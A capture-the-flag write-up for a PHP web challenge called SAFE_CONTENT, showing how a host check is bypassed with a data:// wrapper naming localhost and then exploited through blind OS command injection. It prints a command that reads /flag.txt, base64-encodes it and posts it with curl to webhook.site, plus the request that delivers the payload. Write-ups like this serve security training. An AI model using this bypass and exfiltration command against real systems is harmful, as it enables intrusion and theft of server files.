







### SAFE_CONTENT

Points: 100 \
Difficulty: Medium \
Category: Web \
Author: skyv3il \
Solves: 87

### Description

Our site has been breached. Since then we restricted the ips we can get files from. This should reduce our attack surface since no external input gets into our app. Is it safe ?

For the source code, go to /src.php

### Screen




### Writeup

Go to site and show source code /src.php





Try user php wrippers file:// , check True and False:





Ok, wrappers works, and we hase Blind OS Command Injection. Try use PHP data wrapper:

```
data://text@localhost/plain,payload_here
```

```

Parsed URL:
array(4) {
  ["scheme"]=>
  string(4) "data"
  ["host"]=>
  string(9) "localhost"
  ["user"]=>
  string(4) "text"
  ["path"]=>
  string(19) "/plain,payload_here"
}
```

Blind OS command injection payload use webhook or reverse-shell:
```
$ echo -n "'' && cat /flag.txt | base64 | curl -d @- 'https://webhook.site/<your_webhook_id>' #" | base64 -w0
<base64_encoded_payload>
```

Then send the payload:
```
GET /?url=data://text@localhost/plain,<base64_encoded_payload> HTTP/1.1
```

Finally, you should see the incoming POST request in your webhook, the body data contains the base64 encoded flag.

I used reverse shell payload:




